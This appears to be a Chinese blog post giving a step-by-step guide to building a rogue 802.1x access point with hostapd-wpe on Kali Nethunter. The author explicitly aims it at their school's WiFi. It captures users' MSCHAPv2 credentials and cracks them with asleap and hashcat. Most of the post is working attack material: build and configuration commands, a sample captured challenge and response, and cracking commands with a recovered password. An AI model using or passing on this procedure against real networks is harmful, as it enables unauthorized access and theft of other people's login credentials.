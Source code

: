 ```yaml
---
layout: single
title: 使用Kali Nethunter破解802.1x安全性WiFi
date: 2017-02-10 12:25:57
categories: "Hack"
tags:
- Hardware
- Wireless
- Kali
header:
  teaser: /assets/images/nethunter-8021x/1x_test.jpg
  
---
```


# 背景
笔者学校的无线网络采用1x认证方式，所以你懂的。

之前参考GitHub上的一个项目<https://github.com/OpenSecurityResearch/hostapd-wpe>在Kali2.0上部署成功，但是在手机端的情况比较不同，猜测是因为架构有一定区别所导致的，而且该网页上的Hostapd版本比较低，遂继续查找，找到了aircrack-ng的GitHub的某一个页面上展示了Hostapd-wpe的用法<https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe>

页面上写的比较详细，但是实践中笔者还是踩了不少坑，下面开始：

**注意，本文在Kali 2.0及以上的版本中应该也适用！但是本人没有测试，还请测试通过的朋友留个言**

# 依赖
- pkg-config
- libssl 1.0
- libnl3 (and genl)
- sqlite3

安装依赖：
```shell
apt-get install libssl1.0-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev
```

由于手机上敲指令过于蛋疼，笔者自己ssh到了手机上，在Kali的应用中可以直接打开SSH服务。

用ftp或者wget之类的将patch文件下载到手机上，这里笔者的路径是 ~/1x/ ,执行：

注:补丁文件<https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-wpe.patch>

## 下载、编译、安装
```shell
# 下载
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
# 打补丁
patch -p1 < ../hostapd-wpe.patch
cd hostapd
# 编译安装
make
make install
make wpe
```

## 制作证书
```shell
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```
这里会出现关于gendh命令未找到的错误，原因是openssl将gendh已经换成了dhparam,在该目录下的Makefile中将gendh替换为dhparam即可。

## 运行
请注意在Nethunter中已经预先安装了hostapd，但是那个版本的hostapd是不支持1x的。所以请切换到我们部署的hostapd目录下，运行：
```shell
./hostapd ./hostapd-wpe.conf
```

这里的配置文件需要修改，需要修改的地方有：
```shell
interface=wlan1
ssid=YOUR_SSID
driver=nl80211
hw_mode=g
#fragm_threshold=-1
#rts_threshold=-1
# 以上两行需要添加注释
```

之后再运行，即可成功。日志的数据为该目录下的hostapd-wpe.log文件，其记载了用户的用户名和MSCHAPv2认证hash值。

# 破解
由于采用MSCHAPv2认证，所以密码并不会明文显示。主要有两种方法，其一是直接用系统中的工具asleep进行破解，举个栗子：

## asleep
采集到的日志样例：
```shell
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

执行：
```shell
$ asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

其中wordlist需要自己准备

## hashcat
另一种方法是利用hashcat进行破解，其好处是可以根据掩码实时生产字典爆破而且可以使用GPU+CPU资源进行破解，速度比较科学。

关于hashcat的获取，请去官方网站<https://hashcat.net/>下载。

### hashcat brief introduction
```shell
hashcat [选项] ... hash|hashfile|hccapfile [字典|掩码|路径]
-m, --hash-type        /哈希值类型，我们使用5500 NetNTLMv1
-a, --attack-mode      /攻击模式，这里使用3 暴力破解
-d, --opencl-devices   /使用设备，1：CPU 2：GPU 3：FPGA，DSP
-o, --outfile          /输出文件路径-i, --incerment        /掩码破击时使用，设置掩码上下限
```

笔者这里使用的参数如下：
```shell
./hashcat64.exe -d 1 -a 3 -m 5500 -o "output path" -i --increment-min=1 --increment-max=8 -1 ?l "input filepath" ?1?1?1?1?1?1?1?1
```

其中，-1 ?l 代表定义1号掩码的格式为所有小写字母，参考掩码：
### hashcat maskcode
```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
s |  !"#$%&'()*+,-./:;=?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

将之前得到的输出结果按照
username::::response:challenge
的格式存储在文本文档中，注意去掉hash值中的冒号。运行hashcat

# 后记

为了方便起见，可以将其作为用户定义脚本存储在nethunter的custom command中：
![OP3 customcommand](/assets/images/nethunter-8021x/custom_command.jpg)

运行截图：
![OP3 test1x](/assets/images/nethunter-8021x/1x_test.jpg)
